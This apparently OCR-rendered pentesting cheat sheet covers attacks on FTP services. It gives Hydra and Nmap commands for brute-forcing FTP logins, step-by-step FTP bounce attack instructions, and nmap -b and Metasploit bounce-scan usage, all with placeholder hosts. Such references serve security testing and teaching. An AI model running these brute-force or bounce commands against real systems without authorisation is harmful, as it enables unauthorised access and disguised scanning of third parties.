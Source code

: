 Tools like Hydra are designed for cracking into networks and can be used on services like FTP, HTTP, SMB, etc. For FTP, Hydra often carries out a dictionary attack, which means it uses a list of possible usernames and passwords from a file to try and log in.

## **Bruteforcing with Hydra** 
To use `Hydra` for brute-forcing FTP login credentials, you would use a command structured for this purpose:
```
hydra [-L users.txt or -l user_name] [-P pass.txt or -p password] -f [-S port] ftp://X.X.X.X
```
## Bruteforcing with Nmap
It is also possible to perform brute force on FTP with Nmap scripts:
```
nmap -p 21 --script ftp-brute X.X.X.X
```
## FTP Bounce Attack
FTP Bounce Attack exploits the FTP protocol's ability to redirect traffic, masking the attack source. It uses an FTP server's PORT command to route data to a third party, making the attack seem to originate from the server.

## How to Execute an FTP Bounce Attack:
 1. Find an FTP server that doesn't restrict the PORT command.
 2. Connect to the FTP server.
```
ftp X.X.X.X
```
 3. Use the PORT command to redirect data to the target.
```
quote PORT target_IP,port
```
 4. Initiate a file transfer or command that sends data to the target.
```
get filename
```
This command requests a file from the FTP server, which is then sent to the specified target, exploiting the bounce capability.

## Bouncing with Nmap
Nmap can scan networks via FTP bounce by specifying the -b option with an FTP server that allows bouncing.

For example:
```
nmap -b <FTP_server>:<port> <target_network>
```
This scans the target network, making it appear as though the scan originates from the specified FTP server.

## Bouncing with Metasploit
Metasploit offers modules that leverage FTP bounce for various purposes. After setting up Metasploit, you can use:
```
use auxiliary/scanner/ftp/ftp_bounce
set RHOSTS <FTP_server>
set RPORT <FTP_port>
run
```
This module scans through the vulnerable FTP server to find open ports on other systems.
